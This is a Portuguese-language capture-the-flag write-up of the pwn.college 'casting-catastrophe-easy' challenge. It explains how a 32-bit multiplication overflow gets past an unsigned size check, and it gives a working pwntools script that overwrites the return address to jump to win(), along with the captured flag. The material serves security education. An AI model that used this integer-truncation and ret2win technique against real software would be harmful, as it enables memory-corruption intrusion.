







# pwn.college — Casting Catastrophe Easy (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Integer overflow via multiplication · Unsigned comparison bypass · 32-bit truncation abuse · ret2win · Return address overwrite · Stack layout analysis

---

## Descrição do Desafio

O desafio `casting-catastrophe-easy` é um ret2win com uma restrição diferente dos anteriores. Em vez de pedir diretamente o número de bytes do payload, o binário pede dois valores: o **número de payloads** e o **tamanho de cada payload**. O total é calculado pela multiplicação dos dois — e é esse total que é verificado antes de permitir o `read`.

As proteções do binário:



- **Sem PIE** — endereços fixos em todas as execuções
- **Sem canary** — overflow sem detecção
- **NX habilitado** — stack não executável

---

## Reconhecimento Inicial

Ao rodar o binário, ele imprime o layout do stack frame e todas as informações necessárias para o exploit:



Informações reveladas:

- Return address de `challenge()` está **56 bytes após o início do buffer**
- Endereço de `win()`: `0x401ffd` (fixo, sem PIE)
- O binário instrui a sobrescrever o return address com o endereço de `win` em little-endian

---

## A Vulnerabilidade — Integer Overflow na Multiplicação

### Como o binário verifica o tamanho

Analisando o disassembly de `challenge` no GDB:





```asm
imul  eax, edx          ; eax = num_payloads * bytes_per_payload (32 bits)
cmp   eax, 0x16         ; compara com 22 (0x16)
jbe   challenge+875     ; se <= 22 (unsigned), continua
```

A verificação usa `jbe` (**Jump if Below or Equal**) — uma comparação **unsigned**. Isso descarta a abordagem do desafio anterior de enviar números negativos, pois `jbe` trata todos os valores como não negativos. Um número negativo em unsigned seria um valor enorme, e a comparação falharia.

### A diferença entre `eax` e `rdx`

O ponto crítico está em **qual registrador é usado em cada operação**:

- **`imul eax, edx`** — a multiplicação usa `eax` (32 bits). O resultado é truncado para 32 bits, descartando qualquer overflow
- **`read(rdx=...)`** — o `read` usa `rdx` (64 bits) como tamanho. Se o valor real da multiplicação transbordou os 32 bits, os bits superiores estão em `rdx` mas foram ignorados pelo `cmp`

---

## Primeira Tentativa — Números Negativos (BAD ADDRESS)

A primeira abordagem foi tentar obter um valor de 64 bits cujos 32 bits inferiores fossem ≤ `0x16`, usando números negativos na multiplicação:



```python
p.sendline(b"-2")
p.sendline(b"2147483637")
```

O produto `(-2) × 2147483637 = -4294967274 = 0xffffffff00000016` — cujos 32 bits inferiores são exatamente `0x16` (22), passando no `jbe`. Porém, quando esse valor de 64 bits foi usado como tamanho no `read`, o kernel rejeitou com **BAD ADDRESS** — o valor negativo como tamanho gerou um endereço inválido no espaço do processo.

Isso levou à abordagem de usar dois números **positivos** para causar overflow nos 32 bits do `eax`.

---

## A Solução — Integer Overflow com Positivos

A ideia foi encontrar dois números positivos que, multiplicados, gerem um valor cujos **32 bits inferiores sejam ≤ 22** mas cujo **valor completo de 64 bits seja enorme**.

Para isso, o alvo foi o valor `0x0000000100000004`:

```
0x0000000100000004 em 32 bits (truncado) = 0x00000004 = 4  ← passa no jbe (4 ≤ 22)
0x0000000100000004 em 64 bits = 4.294.967.300              ← rdx gigante para o read
```

Para obter `0x100000004` como produto de dois inteiros positivos:

```
13 × 330382100 = 4.294.967.300 = 0x100000004
```

- `eax` recebe os 32 bits inferiores: `0x00000004` = **4** → `jbe`: 4 ≤ 22 ✅ passa
- `rdx` recebe o valor completo de 64 bits: `0x100000004` → `read` aceita ~4GB ✅

---

## Montando o Exploit

Com todas as informações em mãos:

- **num_payloads:** `13`
- **bytes_per_payload:** `330382100`
- **Produto:** `0x100000004` → `eax = 4` (passa no `jbe`), `rdx = 4.294.967.300` (read ilimitado)
- **Offset até o return address:** 56 bytes (informado pelo binário)
- **Endereço de `win`:** `0x0000000000401ffd` (fixo, sem PIE)



```python
from pwn import *

PATH = '/challenge/casting-catastrophe-easy'

p = process(PATH)

p.sendline(b"13")
p.sendline(b"330382100")

payload = b"A" * 56 + p64(0x0000000000401ffd)

p.sendline(payload)
p.interactive()
```

---

## Resultado Final



```
challenge() will jump straight to win() when it returns.

Goodbye!
You win! Here is your flag:
pwn.college{cPIfetrshsA90NsYGLYvWaBSXDu.ddTOywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. checksec → sem PIE, sem canary → endereço de win fixo, overflow sem detecção
2. Binário imprime stack → offset buffer→RA = 56 bytes, win em 0x401ffd
3. disas challenge → imul eax,edx + cmp eax,0x16 + jbe → verificação unsigned
4. jbe unsigned → números negativos não funcionam (BAD ADDRESS)
5. imul trunca para 32 bits → overflow: 13 × 330382100 = 0x100000004
6. eax = 0x4 (32 bits inferiores) → jbe: 4 ≤ 22 ✅ passa na verificação
7. rdx = 0x100000004 (64 bits completos) → read aceita ~4GB ✅
8. 56 As + p64(0x401ffd) → ret2win → flag obtida
```

---

## Comparação com bounds-breaker

| | bounds-breaker | casting-catastrophe-easy |
|---|---|---|
| Verificação de tamanho | `jle` (signed) | `jbe` (unsigned) |
| Bypass | Número negativo (`-1`) | Integer overflow na multiplicação |
| Truncamento explorado | signed/unsigned | 32 bits → 64 bits |
| Offset informado pelo binário | ✅ Sim (easy) | ✅ Sim |
| PIE | ❌ No PIE | ❌ No PIE |
